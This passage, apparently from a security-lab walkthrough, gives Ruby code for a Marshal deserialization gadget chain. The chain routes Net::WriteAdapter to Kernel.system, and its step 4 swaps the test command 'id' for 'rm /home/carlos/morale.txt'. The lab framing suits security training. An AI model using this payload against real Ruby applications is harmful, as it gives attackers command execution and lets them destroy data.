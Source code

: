 ```
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

**4.** And modify it:

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
```